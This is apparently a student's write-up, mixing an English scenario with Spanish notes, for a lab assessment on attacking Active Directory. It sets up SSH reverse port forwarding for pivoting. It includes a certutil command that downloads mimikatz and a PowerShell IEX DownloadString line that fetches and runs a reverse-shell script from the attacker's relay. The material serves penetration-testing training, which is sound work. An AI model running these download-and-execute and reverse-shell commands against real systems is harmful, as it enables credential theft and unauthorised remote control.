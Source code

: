 # AD Enumeration & Attacks - Skills Assessment Part II

## Scenario

Our client Inlanefreight has contracted us again to perform a full-scope internal penetration test. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using xfreerdp as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part II of the skills assessment.

## Solución

### Consideraciones de pivoting sobre la máquina parrot
Nuestra máquina $target `10.129.34.149`, tiene otra interfaz: `172.16.7.240`
- para poder compartir archivos hay que habilitar reverse port forwarding
    - El archivo de configuración `/etc/ssh/sshd_config` debe tener el valor;
        ```textplain
        GatewayPorts yes
        ```

    - A continuación hay que reiniciar el servicio
        ```bash
        sudo systemctl restart ssh
        ```



- Para compartir archivos
    - Redirigir el tráfico por el puerto 8888 de $target al 8000 de nuestra pwnbox
        ```bash
        ssh -R 8888:localhost:8000 htb-student@$target -vN
        ```
    - Compartir archivos en pwnbox
        ```bash
        python3 -m http.server
        ```
    - Descargar archivos (`certutil`) desde la máquina que no tiene acceso directo a nuestra pwnbox 
        ```powershell
        certutil -urlcache -split -f http://172.16.7.240:8888/mimikatz.exe C:\Users\public\mimikatz.exe
        ```
    - Descargar archivos (fileless, `DownloadString`)
        ```powershell
        powershell IEX (New-Object Net.WebClient).DownloadString('http://172.16.7.240:8888/Invoke-PowerShellTcp.ps1')
        ```
- Para revshell 
    - En nuestra pwnbox
        ```bash
        ssh -R 44444:localhost:4444 htb-student@$target -vN
        ```
    - En la máquina que no tiene acceso a nuestra pwnbox: 
        ```bash
        revshell con ip 172.16.7.240 y puerto 44444
        ```
